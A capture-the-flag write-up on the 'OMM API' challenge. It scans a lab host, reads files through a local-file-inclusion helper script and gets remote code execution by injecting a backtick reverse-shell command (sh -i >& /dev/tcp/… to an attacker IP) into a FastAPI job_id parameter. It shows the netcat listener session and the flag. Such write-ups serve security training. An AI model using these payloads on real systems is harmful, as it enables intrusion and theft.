

# OMM API (user)
<p align="center">
    
</p>

We are given the IP of a machine to exploit, and start by running nmap to discover what ports are open.
```
$ nmap -T 5 -sV 10.128.2.126
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 01:13 CET
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt uvicorn
```

As expected from reading the challenge description `FastAPI` is running on port 8000. We also know that `/docs` is enabled, which gives us an overview of all the API endpoints.
<p align="center">
    
</p>

After playing around with all the different API endpoint, two are considered important for now, because they have a LFI vulnerability where we can read files and list directories (basically `ls` and `cat`). The two endpoints are `/files` (list files in directory) and `/logfile` (read files). To make it easier to query the server for directory-contents and files I wrote a simple python script `lfi.py`.
```python
import requests
from sys import argv

url = "http://10.128.2.126:8000"

if len(argv) != 3:
    print("Invalid args")
    exit()

cmd = argv[1]
obj = argv[2]

if cmd == "ls":
    r = requests.get(url + "/files" + f"?basePath={obj}")
    try:
        res = r.json()
    except:
        print("Error")
        exit()
    directory = res[list(r.json().keys())[0]] # ugly hack
    if isinstance(directory, str):
        print(directory)
        exit()
    for x in directory.get("directories", []):
        print(f"<dir> {x}")
    for x in directory.get("files", []):
        print(f"<file> {x}")

elif cmd == "cat":
    r = requests.get(url + "/logfile" + f"?filepath={obj}")
    print(r.text)
```


```
$ python3 lfi.py ls /home
<dir> subops
<dir> f_omm_app
<dir> ubuntu

$ python3 lfi.py cat /etc/hostname
ip-10-128-2-126
```

The flag is located in `/home/f_omm_app/user`, however this file has to be executed and cannot be read with our LFI. There are also no ssh-keys located on the machine, so we must find a way to either execute commands (RCE) or write files to disk (write our public ssh-key to /home/f_omm_app/.ssh/authorized_keys).

If we list the files in our CWD on the server we can access the FastAPI python code. `main.py` contains the code for the endpoints.
```
$ python3 lfi.py ls .
<dir> __pycache__
<dir> etc
<dir> Models
<dir> Data
<dir> Helpers
<dir> Configurations
<dir> .venv
<file> requirements.txt
<file> main.py
<file> log.py
```

There is a lot of code to parse through (the main.py file is 535 lines), but most of the endpoints are not relevant for our goal (RCE or writing files to disk). One interesting endpoint is the `/restart` endpoint, which seems to restart an existing job on the server.
```python
@app.put("/restart")
async def restart_job(job_id: str):
    app_logger.info(f"Attempting to restart job {job_id}")

    job = pbsModule.get_job(job_id)
    if not isinstance(job, Job):
        raise HTTPException(status_code=400, detail=str(job))

    if job.state is not State.FAILED:
        raise HTTPException(status_code=400, detail="Job not available for restart")

    job_dir = job.path
    job_logidr = job.logdir
    job_owner = job.owner

    shotsFile = get_file(job_dir, "shots.ids")
    par_file_json = get_file(job_dir, "par.json")
    pbs_file = get_file(job_dir, "go.pbs")
    run_script = get_file(job_dir, "run_stofwd2rtm3d.csh.sh")

    app_logger.info(f"Renaming logdir: {job_logidr} --> {job_logidr}_{str(job_id)}")
    restart_dir = os.path.join(job_dir, f"job_{job_id}")
    os.makedirs(restart_dir, mode=0o2775)

    if job_logidr:
        shutil.move(job_logidr, restart_dir)
    if shotsFile:
        shutil.copy(shotsFile, restart_dir)
    if par_file_json:
        shutil.copy(par_file_json, restart_dir)

    pbsModule.add_restart_flag(run_script)
    app_logger.info(f"Submitting new job")
    os.chdir(f"{job_dir}")
    try:
        cmd = JobCommandOutput(f"sudo -u {job_owner} /opt/pbs/bin/qsub {pbs_file}")
        out = cmd.get_output()
        job_id = pbsModule.numeric_id(out.strip())
        return {"message": "Job restarted", "path": job.path, "job_id": job_id}
    except RuntimeError as e:
        app_logger.error(f"Error occurred when submitting job. Error={str(e)}")
        raise HTTPException(status_code=500, detail=str(e))
```


This code can help us achieve RCE through the `pbsModule.get_job(job_id)` function, which is a function from `Helpers/pbsModule.py`.
```python
def get_job(job_id: str) -> "Job":
    """
    Returns a Job object corresponding to a given job id.

    Parameters:
        job_id (str): The id of the job to retrieve.

    Returns:
        Job: The Job object for the given job id.
    """
    cmd = JobCommandOutput(f"/opt/pbs/bin/qstat -xf -F json {job_id}")
    try:
        out = cmd.get_output()
    except RuntimeError as e:
        return str(e)

    job_data = cmd.parse_json(output=out, key="Jobs")

    id = list(job_data.keys())[0]
    data = job_data[id]
    job = Job(job_id=numeric_id(id), job_data=data)

    return job
```


`JobCommandOutput` is a class defined in the same `pbsModule.py` file.
```python
class JobCommandOutput:
    """This class represents a command output from a linux command execution."""

    def __init__(self, cmd: str):
        """
        Initiate a JobCommandOutput instance.

        Parameters:
        cmd (str): The command to be executed.
        """
        self.cmd = cmd
        self.output, self.err = self.run_command()

    def run_command(self) -> str:
        """
        Formats the input to valid linux command inputs, executes command(s) sequentaly and return output/error of command.

        Returns:
        str: The output from the command execution.
        """
        def execute(command):
            """
            Executes the command and returns the output.

            Returns:
            str: The output from the command execution.
            """
            parts = shlex.split(command)
            result = run(parts, stdout=PIPE, stderr=PIPE, text=True, timeout=5)
            return result.stdout, result.stderr

        if '`' in self.cmd:
            commands = self.cmd.split('`')
            c1 = commands[0].strip()
            c2 = commands[1].strip()

            c2_out, c2_err = execute(c2)
            if c2_err:
                raise RuntimeError(c2_err)

            c1_out, c1_err = execute(c1 + " " + c2_out)
            return c1_out, c1_err

        else:
            out, err = execute(self.cmd)
            return out, err
```


The `run_command` calls `execute` which splits our command into space-separated list, and calls `run()` which is from the `subprocess` library. This leads to the command `/opt/pbs/bin/qstat -xf -F json <job_id>` being executed. `job_id` is supplied by us as a string, and is not sanitized or validated. Thus we have to find a way to inject a command which gives us a reverse shell.

To get a reverse shell we want to inject the following command: `/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"`. Using `;`, `&&`, `||`, or `$(<command>)` to chain our command does not work because of how it is parsed by the backend. However, backticks come to the rescue. In bash, surrounding a command by backticks (useful to *nest* commands) substitutes the command with its output, which means that it gets executed before any potential errors in the actual command! If we set the `job_id` to
```
job_id=`/bin/bash -c "sh -i >& /dev/tcp/10.128.1.41/9001 0>&1"`
```
the command to be executed becomes
```
/opt/pbs/bin/qstat -xf -F json `/bin/bash -c "sh -i >& /dev/tcp/10.128.1.41/9001 0>&1"`
```
which tries to substitute our reverse shell command with its output before executing, giving us a reverse shell as user `f_omm_app`. With shell as this user we can run the `user` file to get the flag.
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.2.126] 59480
sh: 0: can't access tty; job control turned off
$ id
uid=1002(f_omm_app) gid=1001(hpc_users_rd) groups=1001(hpc_users_rd)
$ /home/f_omm_app/user
EPT{Y0U_JU57_P0PP3D_7H3_4P1!}
```